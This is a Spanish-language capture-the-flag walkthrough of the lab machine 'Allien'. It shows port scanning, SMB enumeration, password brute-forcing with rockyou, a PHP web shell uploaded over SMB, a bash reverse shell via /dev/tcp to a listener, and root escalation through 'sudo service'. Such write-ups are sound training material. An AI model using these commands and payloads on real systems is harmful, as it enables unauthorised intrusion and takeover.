Comenzamos enviando traza _ICMP_ para verificar que la máquina nos responde e identificar _TTL_ (TimeToLive):

```bash
ping -c 1 172.17.0.2
```



Podemos ver que tiene un TTL de 64, por lo tanto estamos ante una maquina _Linux_.

Procederemos con el reconocimiento inicial:
```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oG allPorts
```
Este escaneo nos encuentra los siguientes puertos abiertos:
_22_: SSH
_80_: HTTP (servicio web)
_139 - 445_: SMB (Samba)

A continuación se realiza un escaneo mas exhaustivo, ejecutando scripts de reconocimiento y enumerando las versiones de los servicios detectados:
```bash
nmap -p22,80,139,445 -sCV 172.17.0.2 -oN targeted
```

Este comando nos devuelve el siguiente output:



Ahora seria viable intentar listar shares de _Samba_ como anónimo, para ello ejecutamos el siguiente comando:

```bash
smbclient -L //172.17.0.2/ -N
```

Lo que nos devuelve lo siguiente:



Por lo que vamos a intentar listar _myshare_ como anónimo con el siguiente comando:

```bash
smbclient //172.17.0.2/myshare -N
```



Vamos a traernos el archivo _access.txt_ a nuestro equipo con el comando `get access.txt`.

Dicho archivo tiene el siguiente contenido:



Se identifica un _JWT_ (JSON Web Token) codificado en Base64.
Al decodificar el payload, se observa información relevante.



Podemos listar un posible nombre de usuario: _satriani17_.

En este punto, resulta viable probar un ataque de fuerza bruta contra el servicio Samba utilizando la herramienta _NetExec_ y el diccionario _Rockyou_. Para ello ejecutaremos el siguiente comando:

```bash
nxc smb 172.17.0.2/24 -u satriani7 -p /home/ffidel/Escritorio/wordlists/rockyou.txt --ignore-pw-decoding
```



El ataque permite identificar que la contraseña del usuario _satriani7_ es _50cent_. Procedemos a conectarnos el share _backup24_ utilizando las credenciales encontradas:

```bash
smbclient //172.17.0.2/backup24 -U'satriani7%50cent'
```

Durante la enumeración del share se identifica el archivo _credentials.txt_, el cual es descargado mediante el comando `get credentials.txt`.

En el archivo se identifican credenciales de autenticación de múltiples usuarios, entre ellos el usuario administrador:

- Usuario: administrador
- Contraseña: Adm1nP4ss2024 

Una vez obtenidas las credenciales de administrador, se procede a conectarse al share `home`.

```bash
smbclient //172.17.0.2/home -U'administrador%Adm1nP4ss2024'
```

Se enumerara brevemente el sistema:



A partir de la información recolectada, se accede al servicio web expuesto en el puerto **80**, donde se lleva a cabo una enumeración inicial aplicando técnicas de _fuzzing_ con la herramienta _Gobuster_.

```bash
gobuster dir -u http://172.17.0.2/ -w /home/ffidel/Escritorio/wordlists/directory-list-big -x php,png,css
```

El escaneo nos devuelve los siguientes resultados:



Aquí observamos que la página web expone el contenido del _share_ **home**, previamente enumerado.  
Por lo tanto, resulta viable intentar la subida de un archivo malicioso a través de **SMB**, utilizando _smbclient_ y el método `put`, con el siguiente contenido:

```php
<?php system($_GET['cmd']); ?>
```



A continuación, se accede al archivo previamente subido desde el servicio web, pasando el parámetro `cmd` en la URL con el objetivo de ejecutar comandos en el sistema y confirmar la obtención de **ejecución remota de comandos (RCE)**.

`http://172.17.0.2/payload.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4444 0>%261"`

De esta forma, la URL quedaría preparada para enviar una _reverse shell_ mediante la ejecución de un comando a través del parámetro `cmd`. Previamente, es necesario ponerse en escucha utilizando _netcat_ sobre el puerto 4444:

```bash
nc -nlvp 4444
```

Una vez obtenida la _Reverse Shell_, realizaremos un tratamiento de la _TTY_ con el fin de obtener una shell totalmente interactiva:

```bash
script /dev/null -c bash
```

A continuación, se envía la shell a segundo plano utilizando la combinación de teclas **Ctrl + Z**.

```bash
stty raw -echo;fg
reset xterm
export TERM=xterm
stty rows 40 columns 155
```

Ya dentro del sistema como el usuario `www-data`, el siguiente paso es la **escalada de privilegios**.  
Para ello, ejecutamos el comando `sudo -l` con el objetivo de enumerar los permisos y comandos que pueden ejecutarse como superusuario.



Observamos que es posible ejecutar el comando _service_ con privilegios elevados.  
Aprovechando esta configuración insegura, realizamos la escalada de privilegios ejecutando el siguiente comando, obteniendo así una shell como **root**:

```bash
sudo service ../../bin/bash
```



Tras explotar las vulnerabilidades identificadas y realizar la correspondiente escalada de privilegios, se obtiene acceso completo al sistema como **root**, dando por finalizada la resolución de la máquina **Allien**.

